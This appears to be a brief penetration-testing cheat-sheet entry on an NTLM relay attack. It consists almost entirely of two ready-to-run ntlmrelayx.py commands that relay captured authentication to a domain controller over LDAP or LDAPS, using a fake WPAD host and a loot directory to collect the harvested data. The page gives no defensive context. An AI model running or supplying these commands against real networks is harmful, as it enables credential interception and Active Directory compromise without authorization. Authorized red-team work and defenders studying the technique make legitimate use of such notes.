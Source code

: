 **relay attack thru ntlmrelayx**

```
ntlmrelayx.py -6 -t ldap://<domain.controller.ip> -wh fakewpad.<domain.com> -l <lootname>
```
OR LDAP Secured (LDAPS)

```
ntlmrelayx.py -6 -t ldaps://<domain.controller.ip> -wh fakewpad.<domain.com> -l <lootname>
```

